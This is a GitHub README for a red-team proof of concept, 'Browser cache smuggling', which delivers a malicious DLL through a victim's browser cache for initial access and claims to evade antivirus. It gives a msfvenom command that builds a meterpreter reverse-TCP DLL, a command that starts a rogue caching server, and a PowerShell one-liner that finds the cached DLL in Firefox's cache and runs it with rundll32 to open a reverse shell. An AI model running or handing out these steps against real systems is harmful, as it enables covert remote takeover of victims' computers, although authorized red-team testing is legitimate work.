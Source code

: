 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This has the capabilities to bypass AV , depends on from where DLL is generated !!
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

- To better understand how this attack work , please navigate to : 
# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![](https://surya-dev-singh.github.io/assets/img/Cache%20Smuggling%20Attack/Pasted%20image%2020231025192341.png)

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```
**NOTE:** From the above command , make sure when u are running the dll file from rundll32 , you provide proper entry point eg (MainDLL) , which may be different for havoc C2.
and we will get our reverse shell !! 
